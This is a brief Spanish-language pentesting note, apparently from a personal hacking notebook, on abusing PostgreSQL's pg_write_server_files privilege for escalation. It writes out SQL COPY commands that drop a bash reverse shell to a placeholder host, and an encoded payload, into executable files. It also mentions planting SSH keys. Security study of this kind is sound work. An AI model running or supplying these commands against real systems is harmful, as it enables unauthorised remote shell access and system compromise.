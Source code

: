 -----
- Tags: #teoria #practica #escalada 
------
# Abuso de permisos de escirutas en sistemas de Gestion de Base de Datos

El abuso de privilegios de escritura es un tema imporante en la seguridad e baeses de datos, ya que los usuarios malintencionados pueden aprovechar estos privilegios para manipular o dañar datos, insertar información maliciosa o incluso obtener acceso no autorizado al sitema. Aunque los nombres específicos de los permissos pueden variar entre diferentes sistemas de base de datos, el concepto de abuso es relevante en todos ellos.

-----
# Explotación 

Por ejemplo, en **PostgreSQL** existe un privilegio denominado **pg_write_server_files** el cual como mencionamos permite al usuario que lo posee la manipulación de archivos existentes, lo que podría suponer un riesgo de cara a la seguridad y un punto crucial de interes para el atacante.

Esto de podría utilizar para depositar claves ssh en los repositorios ssh del usuario, ingresar código malicioso en archivos que se ejecutan a nivel de sistema o incluso ejecutar comandos a nivel de sistema.

```sql
-- Insertar líneas de código en un determinado archivo
COPY (SELECT CAST('bash -i >& /dev/tcp/{host}/{port} 0>&1' AS text)) TO '/path/to/executing/code';

-- Insertar líneas de código de manera alterna
copy (SELECT convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) TO '/just/a/path.exec';
```
Más detalles del abuso de estos privilegios pueden ser encontrados en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).